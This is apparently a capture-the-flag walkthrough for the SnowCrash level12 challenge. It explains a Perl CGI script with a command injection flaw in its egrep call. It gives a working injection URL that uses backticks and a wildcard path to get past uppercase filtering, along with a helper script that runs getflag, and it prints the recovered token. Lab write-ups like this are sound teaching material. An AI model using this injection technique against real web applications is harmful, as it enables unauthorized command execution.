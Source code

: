 For this level we see the .pl file

	level12@SnowCrash:~$ ls
	level12.pl

	level12@SnowCrash:~$ cat level12.pl
	#!/usr/bin/env perl
	# localhost:4646
	use CGI qw{param};
	print "Content-type: text/html\n\n";

	sub t {
	  $nn = $_[1];
	  $xx = $_[0];
	  $xx =~ tr/a-z/A-Z/;
	  $xx =~ s/\s.*//;
	  @output = `egrep "^$xx" /tmp/xd 2>&1`;
	  foreach $line (@output) {
		  ($f, $s) = split(/:/, $line);
		  if($s =~ $nn) {
			  return 1;
		  }
	  }
	  return 0;
	}

	sub n {
	  if($_[0] == 1) {
		  print("..");
	  } else {
		  print(".");
	  }
	}

	n(t(param("x"), param("y")));

This script is a CGI web application that:

Runs on localhost:4646
Accepts two parameters:

Takes user input from x parameter
Converts it to uppercase
Removes everything after the first whitespace
Uses it as a pattern for egrep to search in /tmp/xd
Checks if any results contain the pattern from the y parameter
Returns ".." if a match is found, "." if not


Key vulnerability:

Command injection in the egrep command
User input x is directly inserted into a shell command
Even with uppercase conversion, special characters can be used to inject commands
Challenge is to execute getflag despite the uppercase conversion

So we need to write a file with an uppercase name that is going to execute getflag

	#! /bin/bash

	getflag > /tmp/flag

And we go on a browser and type this in the search bar 

	http://192.168.1.11:4646/level12.pl?x='`/*/FILE`'&y=anything
Then we just have to get the flag in the /tmp/flag file

	level12@SnowCrash:~$ cat /tmp/flag
	Check flag.Here is your token : g1qKMiRpXf53AWhDaU7FEkczr

